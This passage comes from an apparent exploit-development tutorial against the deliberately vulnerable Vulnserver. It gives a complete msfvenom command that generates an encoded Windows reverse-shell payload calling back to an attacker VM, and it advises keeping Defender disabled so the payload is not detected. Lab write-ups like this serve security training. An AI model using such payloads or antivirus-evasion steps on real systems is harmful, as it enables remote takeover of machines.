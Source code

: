 ![Calc popped](/assets/img/vulnserver_trun_50_pop_calc.png)


## Reverse Shell

Before you do this, make sure you still have Defender completely deactivated. Defender usually detects the vanilla msfvenom reverse shells.

Here is the msfvenom command for generating a common reverse shell:

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.79 LPORT=53 -f py -v payload -e x86/shikata_ga_nai -b '\x00\x0A' EXITFUNC=thread
```

Once again we give msfvenom our badchars via the `-b` parameter. Also we use `EXITFUNC=thread`, this allows the server to recover from our command execution instead of crashing every time.

Here `10.0.2.79` is the IP address of your attacker VM and `53` is the listening port of your netcat listener.
